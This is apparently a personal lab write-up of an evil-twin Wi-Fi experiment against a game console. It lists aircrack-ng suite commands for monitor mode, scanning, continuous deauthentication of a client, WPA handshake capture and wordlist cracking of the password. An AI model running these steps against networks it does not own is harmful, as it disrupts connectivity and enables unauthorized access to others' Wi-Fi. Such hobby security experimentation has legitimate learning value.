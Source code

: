 The switch did not connect even with the evil-twin active. This could be due to the encryption type. As the iPhone will change the mac addr and the switch will still connect.

## Conclusion
No conclusion as the 'experiment' didn't work.

## Appendix A
Change the SSID to be the same as that of the AP by editing the `hostapd.conf` file.

## Appendix B
Start monitor mode:
`sudo airmon-ng start wlan1 `

Scan for AP:
`sudo airodump-ng wlan1mon`

Scan for device:
`sudo airodump-ng -d <mac_addr_of_AP> wlan1mon`

To run the deauth:
`sudo aireplay-ng  -0 0 -c <mad_addr_of_switch> -a <mac_addr_of_AP> wlan1mon`

# Recap
So the switch holds the ssid and does not care about the mac addr. New goal is to copy the encryption type, which means we will need the password of the AP. Which now makes things a bit more annoying. You could also just crack the password lol. [link](https://support.microsoft.com/en-us/windows/find-your-wi-fi-network-password-in-windows-2ec74b2e-d9ec-ade1-cc9b-bef1429cb678)

So get wifi password, then copy encryption to evil twin.

# Get wifi password
Already covered this in part 1
LOL Phone decided it should use wpa3 for no reason. (switch will still use wpa2-psk)
Deauth the device and start a capture.
```bash
sudo aireplay-ng  -0 0 -c <mad_addr_of_switch> -a <mac_addr_of_AP> wlan1mon
```

```bash
sudo airodump-ng -c 6 wlan1mon -w psk -d A6:99:42:94:34:7F
```

Stop the deauth and the capture should get a handshake.

where `-c 6` is the channel and `-d` is the AP

Crack the handshake
```bash
sudo aircrack-ng -w pwd.lst psk*.cap
```

Cool this gives the password.
